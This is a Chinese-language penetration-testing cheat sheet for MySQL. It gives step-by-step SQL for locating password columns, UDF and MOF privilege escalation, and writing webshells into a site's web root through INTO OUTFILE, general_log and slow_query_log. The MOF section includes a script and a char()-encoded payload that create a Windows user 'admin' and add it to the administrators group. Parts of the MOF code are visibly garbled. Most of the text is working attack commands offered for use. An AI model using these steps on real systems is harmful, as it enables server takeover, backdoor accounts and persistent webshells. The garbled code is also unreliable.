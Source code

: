 - [MySql](#mysql)
  - [基础语句](#基础语句)
    - [数据连接情况](#数据连接情况)
    - [xx 库中所有字段名带 pass|pwd 的表](#xx-库中所有字段名带-passpwd-的表)
    - [获取正在执行的sql语句](#获取正在执行的sql语句)
  - [提权](#提权)
    - [UDF(User Defined Function)提权](#udfuser-defined-function提权)
  - [Getshell](#getshell)
      - [直接写文件Getwebshell](#直接写文件getwebshell)
      - [日志general_log Getshell](#日志general_log-getshell)
      - [慢日志slow_query_logGetshell](#慢日志slow_query_loggetshell)
  - [mysql8](#mysql8)
    - [新增的表](#新增的表)
      - [information_schema.TABLESPACES_EXTENSIONS](#information_schematablespaces_extensions)
    - [新增功能](#新增功能)
      - [table](#table)
  - [参考](#参考)
# MySql

## 基础语句

### 数据连接情况

```sql
show processlist;
```

### xx 库中所有字段名带 pass|pwd 的表

```sql
select distinct table_name from information_schema.columns where table_schema="xx" and column_name like "%pass%" or column_name like "%pwd%"
```

### 获取正在执行的sql语句
使用information.schema.processlist 表读取正在执行的sql语句，从而得到表名与列名.


## 提权
### UDF(User Defined Function)提权

**利用条件:**

1. secure-file-priv 不为NULL,查询语句 `show global variables like '%secure%';存在\lib\plugin目录.
2. mysql高权运行.

**步骤:**

1. 查询secure-file-priv是否为null,`show global variables like '%secure%';`

2. 确定mysql版本来确定要使用的udf版本(x64,x86) `show variables like "%version%";`

3. ```mysql
   use mysql;
   set @my_udf_a=concat('',dll的16进制);//将dll以16进制赋值给一个变量
   create table my_udf_data(data LONGBLOB);//创建表
   insert into my_udf_data values("");update my_udf_data set data = @my_udf_a;//将存储dll的的变量插入表中
   show variables like '%plugin%';//查看导出目录
   select data from my_udf_data into DUMPFILE '%plugin%/udftest.dll';//导出dll
   create function sys_eval returns string soname 'udftest.dll';//从dll中创建函数
   select sys_eval('whoami');//
   ```

**Tips:**

1. 4.1以前随意注册,无限制.

2. 在4.1到5之后创建函数时,不能包含`\`和`/`.所以需要释放到system32目录中.

3. 5.1之后需要导出到指定的插件目录,即`%plugin%`变量的位置,默认文件夹不存在,需要手动创建(利用NTFS流).
## MOF提权

> mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。有了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

**利用条件:**

1. secure-file-priv 为空.
2. mysql高权运行.

#### 步骤
1. 
   创建mof文件


   ```vb
   pace("\.rootsubscription")
   
   instance of **EventFilter as $EventFilter{    EventNamespace = "RootCimv2";    Name  = "filtP2";    Query = "Select * From **InstanceModificationEvent "
               "Where TargetInstance Isa "Win32_LocalTime" "
               "And TargetInstance.Second = 5";
       QueryLanguage = "WQL";
   };
   
   instance of ActiveScriptEventConsumer as $Consumer
   {
       Name = "consPCSV2";
       ScriptingEngine = "JScript";
       ScriptText =
       "var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user admin admin /add")";
   };
   
   instance of __FilterToConsumerBinding
   {
       Consumer   = $Consumer;
       Filter = $EventFilter;
   };
   ```

2. 手动上传到目标导入`select load_file('mof file') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof`到Mof目录.
   或者使用select 写入

   ```mysql
   select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile 'c:/Windows/system32/wbem/mof/nullevt.mof';
   ```

## Getshell

#### 直接写文件Getwebshell

**利用条件:**

- secure-file-priv参数为空或者为网站根路径
- 知道网站的绝对路径

**步骤:**

```mysql
select 'phpinfo();' into outfile 'c:/www/webshell.php'
```

#### 日志general_log Getshell

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global general_log='on';//开启日志记录
SET global general_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT 'phpinfo();';//该语句会被记录到日志中从而写入webshell
```

#### 慢日志slow_query_logGetshell

MySQL的慢查询日志是MySQL提供的一种日志记录,它用来记录在MySQL中响应时间超过阀值的语句,具体指运行时间超过long_query_time值的SQL,则会被记录到慢查询日志中.long_query_time的默认值为10,意思是运行10S以上的语句.默认情况下,Mysql数据库并不启动慢查询日志,需要我们手动来设置这个参数.

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global slow_query_log=1;//开启慢查询
set global slow_query_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT "phpinfo();"  or sleep(11);//使用sleep(11)使该语句记录到日志
```

## mysql8

### 新增的表
#### information_schema.TABLESPACES_EXTENSIONS
它直接存储了数据库和数据表
### 新增功能
#### table

https://mp.weixin.qq.com/s/R2Sud4uMSTV9egt0Lub36Q

## 参考

https://mp.weixin.qq.com/s/VgXOXVl-Bx2Vi8BYxdx3CA